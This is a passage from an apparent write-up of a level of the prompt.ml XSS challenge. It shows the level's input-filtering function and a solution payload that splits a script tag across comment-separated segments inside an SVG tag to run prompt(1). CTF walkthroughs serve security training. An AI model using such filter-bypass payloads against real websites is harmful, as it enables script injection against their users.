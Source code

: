 :uk: This level is similar to level 7, but here we can't use js comments, cause the regex limits this usage, but we can use XML comments, for doing this, we have to insert a `<svg>` tag before. 

### Code
```
function escape(input) {
    // sort of spoiler of level 7
    input = input.replace(/\*/g, '');
    // pass in something like dog#cat#bird#mouse...
    var segments = input.split('#');

    return segments.map(function(title, index) {
        // title can only contain 15 characters
        return '<p class="comment" title="' + title.slice(0, 15) + '" data-comment=\'{"id":' + index + '}\'></p>';
    }).join('\n');
}    
```

## Solution
```
"><svg><!--#--><script><!--#-->prompt(1<!--#-->)</

```
>[Top](#index)

[Level 0]: http://prompt.ml/0
[Level 1]: http://prompt.ml/1
[Level 2]: http://prompt.ml/2
[Level 3]: http://prompt.ml/3
[Level 4]: http://prompt.ml/4
[Level 5]: http://prompt.ml/5
[Level 6]: http://prompt.ml/6
[Level 7]: http://prompt.ml/7
[Level 8]: http://prompt.ml/8
[Level 9]: http://prompt.ml/9
[Level A]: http://prompt.ml/10
[Level B]: http://prompt.ml/11
[Level C]: http://prompt.ml/12
[Level D]: http://prompt.ml/13
[Level E]: http://prompt.ml/14
[Level F]: http://prompt.ml/15

